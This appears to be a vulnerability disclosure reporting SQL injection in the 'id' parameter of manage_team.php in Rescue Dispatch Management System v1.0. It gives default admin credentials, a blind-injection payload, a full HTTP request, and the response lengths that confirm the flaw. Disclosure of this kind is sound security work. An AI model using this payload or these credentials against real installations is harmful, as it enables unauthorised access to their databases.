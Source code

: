 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/teams/manage_team.php?id=

Vulnerability location: /rdms/admin/teams/manage_team.php?id=,id

[+] Payload: /rdms/admin/teams/manage_team.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/teams/manage_team.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 2895
![image](https://user-images.githubusercontent.com/54017627/170461884-602358c7-c42d-4274-b775-d3f741960e65.png)

![image](https://user-images.githubusercontent.com/54017627/170461636-49c57419-e078-48a3-911a-0c0365e0a8e2.png)

When length (database ()) = 7, Content-Length: 2921
![image](https://user-images.githubusercontent.com/54017627/170461850-1d3ef7b3-2155-43a5-9918-07e51328f0b8.png)

![image](https://user-images.githubusercontent.com/54017627/170461601-7e4d569d-71e1-44b3-82eb-e434584f1772.png)
